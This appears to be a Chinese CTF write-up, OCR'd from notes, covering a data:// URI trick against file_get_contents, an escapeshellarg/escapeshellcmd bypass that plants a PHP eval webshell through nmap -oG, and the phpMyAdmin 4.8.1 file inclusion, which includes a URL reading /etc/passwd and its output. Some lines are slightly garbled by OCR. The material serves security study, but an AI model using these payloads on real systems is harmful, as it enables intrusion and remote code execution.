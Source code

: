 `if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`

file_get_contents($text,'r')是读取文件的内容，说明我们首先要上传一个文件，并且它的内容还得是"welcome to the zjctf"，我们考虑用data协议，data协议通常是用来执行PHP代码，然而我们也可以将内容写入data协议中然后让file_get_contents函数取读取。构造如下：

`data:text/plain,welcome to the zjctf`



## escapshellarg()和escapshellcmd()

函数escapeshellarg的作用是把字符串[转码](https://so.csdn.net/so/search?q=转码&spm=1001.2101.3001.7020)为可以在 shell 命令里使用的参数，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

函数escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义(即在前面插入`\`)。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

正确的样式：

`正确的样式：`

` ' <?php @eval($_POST["mayi"]);?> -oG mayi.php ' ` 

`$host = escapeshellarg($host); `

`>>> ''\'' <?php @eval($_POST["mayi"]);?> -oG mayi.php' \''' $host = escapeshellcmd($host); `

`>>> ''\'' \<\?php @eval($_POST["mayi"])\;\?\> -oG mayi.php' \\''' `

`# 等价于  \<\?php @eval($_POST["mayi"])\;\?\> -oG mayi.php \\`



## phpMyAdmin 4.8.1 远程文件包含

### 一、漏洞描述
phpMyAdmin 是一套开源的、基于Web的MySQL数据库管理工具。在 4.8.2 之前的 phpMyAdmin 4.8.x 中发现了一个问题，其中攻击者可以在服务器上包含文件。该漏洞来自 phpMyAdmin 中重定向和加载页面的部分代码，以及对白名单页面的不当测试。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

攻击者必须经过身份验证，以下情况除外：
`$cfg['AllowArbitraryServer'] = true`：攻击者可以指定已经控制的任何主机，并在 phpMyAdmin 上执行任意代码；
`$cfg['ServerDefault'] = 0`：这绕过登录并在没有任何身份验证的情况下运行易受攻击的代码。

### 二、漏洞影响

4.8.0 <= phpMyAdmin < 4.8.2



### 三、漏洞实例

buuctf 我有一个数据库

访问`http://x.x.x.x:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：

`root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin`
